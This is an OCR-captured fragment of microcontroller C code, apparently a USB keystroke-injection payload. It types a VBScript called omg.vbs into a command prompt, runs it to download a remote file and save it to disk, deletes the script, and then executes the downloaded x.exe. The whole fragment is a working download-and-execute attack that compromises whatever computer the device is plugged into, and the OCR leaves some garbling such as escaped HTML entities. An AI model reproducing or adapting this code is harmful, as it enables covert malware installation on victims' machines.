   delay(myKeyBreak);
  ascii_println("echo If objXMLHTTP.Status = 200 Then &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objADOStream = CreateObject("ADODB.Stream") &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.Open &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.Type = 1 &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.Write objXMLHTTP.ResponseBody &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.Position = 0 &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objFSO = Createobject("Scripting.FileSystemObject") &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objFSO = Nothing &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.SaveToFile strHDLocation &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo objADOStream.Close &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objADOStream = Nothing &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo End if &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("echo Set objXMLHTTP = Nothing &gt;&gt; omg.vbs");
  delay(myKeyBreak);
  ascii_println("exit");
  delay(1000);
  omg("cmd /c cscript omg.vbs");
  delay(8000);
  omg("cmd /c del omg.vbs");
  delay(1000);
  omg("cmd /c x.exe");
  delay(1000000);
}
void loop() {
}

void ascii_println(char *string)
{
  ascii_type_this(string);
  Keyboard.set_key1(KEY_ENTER);
  Keyboard.send_now();
  delay(100);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(100);
}

